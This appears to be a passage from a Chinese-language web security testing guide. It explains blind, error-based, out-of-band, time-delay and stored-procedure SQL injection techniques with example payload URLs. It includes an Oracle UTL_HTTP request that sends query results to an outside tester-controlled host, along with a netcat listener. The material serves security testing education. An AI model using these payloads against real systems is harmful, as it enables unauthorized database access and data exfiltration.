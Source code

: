 ```
其中N是到目前为止我们已经分析的字符数（不计算空值）。查询将是：
```SELECT field1, field2, field3 FROM Users WHERE Id='1' AND LENGTH(username)=N AND '1' = '1'```

查询返回true或false。如果获得true，则说明推理已经完成，因此我们知道了参数的值。如果获得false，则意味着参数值中存在空字符，并且我们必须继续分析下一个参数，直到找到另一个空值为止。

盲目SQL注入攻击需要大量查询。测试人员可能需要自动工具才能利用此漏洞。

##### 基于错误的渗透技术

当测试人员由于某种原因无法使用其他技术（例如UNION）利用SQL注入漏洞时，基于错误的利用技术很有用。基于错误的技术包括强制数据库执行某些操作，结果将是错误。

这里的重点是尝试从数据库中提取一些数据并将其显示在错误消息中。对于不同的DBMS，此技术可能有所不同（请参阅DBMS特定部分）。

考虑以下SQL查询：```SELECT * FROM products WHERE id_product=$id_product```

还考虑对执行上述查询的脚本的请求：```http://www.example.com/product.php?id=10```

恶意请求将是（例如Oracle 10g）：```http://www.example.com/product.php?id=10||UTL_INADDR.GET_HOST_NAME( (SELECT user FROM DUAL) )--```

在此示例中，测试人员将值10与函数```UTL_INADDR.GET_HOST_NAME```的结果连接在一起。该Oracle函数将尝试返回传递给它的参数的主机名，即另一个查询```SELECT user FROM DUAL```(其结果为用户名）。当数据库使用用户数据库名查找主机名时，它将失败并返回如下错误消息：

```ORA-292257: host SCOTT unknown```

然后，测试人员可以改变传递给GET_HOST_NAME（）函数的参数，结果将显示在错误消息中。

##### Out of Band Exploitation Technique
这个技术也是盲注中常用的。该技术使用DBMS执行带外连接，并将注入查询的结果作为请求的一部分传递给测试的服务器。像基于错误的技术一样，每个DBMS都有自己的函数，所以使用前要确定DBMS类型。

考虑以下SQL查询：```SELECT * FROM products WHERE id_product=$id_product```

还考虑对执行上述查询的脚本的请求：```http://www.example.com/product.php?id=10```

恶意请求将是：```http://www.example.com/product.php?id=10||UTL_HTTP.request(‘testerserver.com:80’||(SELECT user FROM DUAL)--```

在此示例中，测试人员将值10与函数的结果连接在一起UTL_HTTP.request。该Oracle函数将尝试连接到testerserver一个HTTP GET请求并包含查询返回信息SELECT user FROM DUAL。测试人员可以设置网络服务器（例如Apache）或使用Netcat工具：
```/home/tester/nc –nLp 80```

显示结果
```
GET /SCOTT HTTP/1.1
Host: testerserver.com
Connection: close
```

##### 时间延迟渗透技术
这个技术也是盲注中常用的。该技术包括发送一个注入的查询，并且在条件为真的情况下，测试人员可以监视服务器响应所花费的时间。如果存在延迟，则测试人员可以假定条件查询的结果为true。对于不同的DBMS，此开发技术可能有所不同（请参阅DBMS特定部分）。
考虑以下SQL查询：```SELECT * FROM products WHERE id_product=$id_product```

还考虑对执行上述查询的脚本的请求：```http://www.example.com/product.php?id=10```

恶意请求将是（例如MySql 5.x）：```http://www.example.com/product.php?id=10 AND IF(version() like ‘5%’, sleep(10), ‘false’))--```

在此示例中，测试人员正在检查MySql版本是否为5.x，从而使服务器将答案延迟10秒。测试仪可以增加延迟时间并监视响应。测试人员也不需要等待响应。有时，他可以设置一个很高的值（例如100），并在几秒钟后取消请求。

##### 存储过程渗透技术

在存储过程中使用动态SQL时，应用程序必须正确清理用户输入，以消除代码注入的风险。如果未清除，则用户可能会输入将在存储过程中执行的恶意SQL。
```